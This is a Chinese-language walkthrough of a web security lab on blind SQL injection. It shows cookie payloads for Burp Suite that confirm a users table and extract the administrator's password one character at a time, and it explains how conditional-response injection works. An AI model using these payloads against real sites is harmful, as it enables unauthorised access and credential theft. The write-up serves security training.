

# 题意

该实验包含盲注漏洞。数据库中包含users表，该表含有username和password两列。需要利用该漏洞找到administrator的密码并且登录。
# 解题思路
step1:修改cookie

用Burpsuite的repeater组件，可以很方便地修改cookie并查看返回结果

修改前：


将cookie改成：
```
TrackingId=xyz
```


可以看到welcome back不见了。

再将cookie改成：
```
TrackingId=jbN5M5L2Dh6kaFY5' AND '1'='1 (jbN5M5L2Dh6kaFY5是TrackingId的初始值)
```
可以看到welcome back又出现了。


step2:猜解信息
确定user表存在
```
TrackingId=jbN5M5L2Dh6kaFY5' AND (SELECT 'a' FROM users LIMIT 1) = 'a'--
```
该语句并没有在数据库中取得数据，如果不存在users表的话就会报错，否则不会报错。

猜解administrator用户名

```
TrackingId=jbN5M5L2Dh6kaFY5 AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

### Intruder的使用
猜解密码长度

```
TrackingId=jbN5M5L2Dh6kaFY5 AND (SELECT 'a' FROM users WHERE username='administrator' AND length(password)>1)='a
```


猜解密码全文
```
TrackingId=bmrduZ4GewMJPzUP' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```




# 知识点
## 盲注
盲注就是应用程序存在SQL注入漏洞，但是其http响应中不包含相关SQL语句的结果和数据库报错的细节。因此例如联合注入等技术对于盲注就不是很有效，因为这些技术依赖于应用程序对注入语句的响应结果。

## 触发条件响应来利用盲注
假设一个应用程序使用cookie来进行身份验证。给应用程序的请求中包含如下cookie：
```
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```
当应用程序收到包含该cookie的请求时，会通过如下sql语句判断这是不是一个合法用户的请求：
```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```
该语句是有注入点的，但是没有回显。但是，应用程序仍然会根据语句是否有返回数据而有不同的行为。实验中的现象是，如果成功有数据返回，页面上会显示“Welcome Back”信息。该行为足够用条件响应来利用盲注并获取信息了。假设带有如下TrackId的cookie的两个请求：
```
…xyz' AND '1'='1
…xyz' AND '1'='2
```

第一个请求会显示“Welcome back”，第二个不会。这就让攻击者能够用一次条件响应确定数据中的1bit信息。


例如，假设有一个用户表User有两列Username和Password，有一个用户是administrator。攻击者输入如下payload：
```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

如果应用程序返回“Welcome back”，说明密码的第一位大于m。以此类推。

总的来说，conditional response类似于跟应用程序进行问答，应用程序只会回答是或不是。攻击者通过这些是或不是来对数据库中的信息进行猜解。